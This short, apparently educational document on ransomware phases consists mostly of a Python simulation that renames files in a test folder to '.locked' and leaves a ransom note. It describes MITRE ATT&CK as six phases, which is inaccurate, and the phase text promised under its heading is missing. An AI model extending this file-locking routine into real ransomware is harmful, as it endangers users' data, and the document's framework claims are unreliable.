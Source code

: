 # Ransomware Attack Phases Analysis

## Overview

This document outlines the six phases mapped out in the MITRE ATT&CK framework, explaining the tactics, techniques, and procedures employed to create a successful attack. 

## Phase 1: Initial Access and Reconnaissance






(to lock the files for later phase)
import os

# Directory to 'lock' files in (choose a harmless test folder!)
target_dir = "C:/Users/YourUser/Desktop/testfolder"

for filename in os.listdir(target_dir):
    file_path = os.path.join(target_dir, filename)
    if os.path.isfile(file_path):
        # Simulate locking by renaming the file
        os.rename(file_path, file_path + ".locked")

# Create a ransom note
with open(os.path.join(target_dir, "README_RESTORE_FILES.txt"), "w") as f:
    f.write("Your files have been 'locked'. This is a simulation for educational purposes.\nNo data has been harmed.\n")

